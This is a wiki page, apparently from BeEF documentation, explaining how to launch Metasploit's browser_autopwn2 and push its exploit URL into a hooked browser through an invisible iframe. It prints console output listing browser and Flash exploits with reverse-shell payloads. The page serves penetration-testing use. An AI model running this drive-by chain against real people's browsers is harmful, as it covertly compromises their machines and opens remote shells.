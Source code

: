 ## Metasploit Modules

Once Metasploit has been [[configured|Configuration]] and launched, Metasploit modules are directly included in the BeEF command modules tree:

[[Images/msf2.png|align=center]]

When selecting a payload, all options of Metasploit modules can be directly given in the BeEF web interface :

[[Images/msf3.png|align=center]]

You then just have to wait for the exploit to work :

[[Images/msf6.png|align=center]]

## Browser Autopwn

While the feature is not directly integrated in BeEF, you can easily use the Browser Autopwn function of Metasploit with BeEF.

```
msf > use auxiliary/server/browser_autopwn2
msf auxiliary(browser_autopwn2) > show options

Module options (auxiliary/server/browser_autopwn2):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   EXCLUDE_PATTERN                   no        Pattern search to exclude specific modules
   INCLUDE_PATTERN                   no        Pattern search to include specific modules
   Retries          true             no        Allow the browser to retry the module
   SRVHOST          0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT          8080             yes       The local port to listen on.
   SSL              false            no        Negotiate SSL for incoming connections
   SSLCert                           no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                           no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name       Description
   ----       -----------
   WebServer  Start a bunch of modules and direct clients to appropriate exploits

```

First, launch browser_autopwn or browser_autopwn2 in Metasploit and get the BrowserAutoPwn URL, for example:

```
msf auxiliary(browser_autopwn2) > run -z 
[*] Auxiliary module execution completed

[*] Searching BES exploits, please wait...
msf auxiliary(browser_autopwn2) >
[*] Starting exploit modules...
[*] Starting listeners...
[*] Time spent: 6.01071043
[*] Using URL: http://0.0.0.0:8080/5WNrYZjr
[*] Local IP: http://10.1.1.175:8080/5WNrYZjr

[*] The following is a list of exploits that BrowserAutoPwn will consider using.
[*] Exploits with the highest ranking and newest will be tried first.

Exploits
========

 Order  Rank       Name                                       Payload
 -----  ----       ----                                       -------
 1      Excellent  webview_addjavascriptinterface             android/meterpreter/reverse_tcp on 4443
 2      Excellent  samsung_knox_smdm_url                      android/meterpreter/reverse_tcp on 4443
 3      Excellent  firefox_svg_plugin                         firefox/shell_reverse_tcp on 4442
 4      Excellent  firefox_webidl_injection                   firefox/shell_reverse_tcp on 4442
 5      Excellent  firefox_tostring_console_injection         firefox/shell_reverse_tcp on 4442
 6      Excellent  firefox_proto_crmfrequest                  firefox/shell_reverse_tcp on 4442
 7      Great      adobe_flash_net_connection_confusion       windows/meterpreter/reverse_tcp on 4444
 8      Great      adobe_flash_shader_drawing_fill            windows/meterpreter/reverse_tcp on 4444
 9      Great      adobe_flash_shader_job_overflow            windows/meterpreter/reverse_tcp on 4444
 10     Great      adobe_flash_hacking_team_uaf               windows/meterpreter/reverse_tcp on 4444
 11     Great      adobe_flash_uncompress_zlib_uaf            windows/meterpreter/reverse_tcp on 4444
 12     Great      adobe_flash_opaque_background_uaf          windows/meterpreter/reverse_tcp on 4444
 13     Great      adobe_flash_pixel_bender_bof               windows/meterpreter/reverse_tcp on 4444
 14     Great      adobe_flash_nellymoser_bof                 windows/meterpreter/reverse_tcp on 4444
 15     Great      adobe_flash_copy_pixels_to_byte_array      windows/meterpreter/reverse_tcp on 4444
 16     Great      adobe_flash_worker_byte_array_uaf          windows/meterpreter/reverse_tcp on 4444
 17     Great      adobe_flash_casi32_int_overflow            windows/meterpreter/reverse_tcp on 4444
 18     Great      adobe_flash_domain_memory_uaf              windows/meterpreter/reverse_tcp on 4444
 19     Good       adobe_flash_uncompress_zlib_uninitialized  windows/meterpreter/reverse_tcp on 4444
 20     Good       wellintech_kingscada_kxclientdownload      windows/meterpreter/reverse_tcp on 4444
 21     Good       ms14_064_ole_code_execution                windows/meterpreter/reverse_tcp on 4444

[+] Please use the following URL for the browser attack:
[+] BrowserAutoPwn URL: http://10.1.1.175:8080/5WNrYZjr
[*] Server started.
[*] Starting the payload handler...
```

Note the BrowserAutoPwn URL: `http://10.1.1.175:8080/5WNrYZjr`

Then use the "Create Invisible Iframe" command module to load the autopwn webpage in an iframe:

[[Images/msf8.png|align=center]]

You just have to wait for a shell :

[[Images/msf9.png|align=center]]

***

[[Previous|Network-discovery]] | [[Next|Tunneling]] 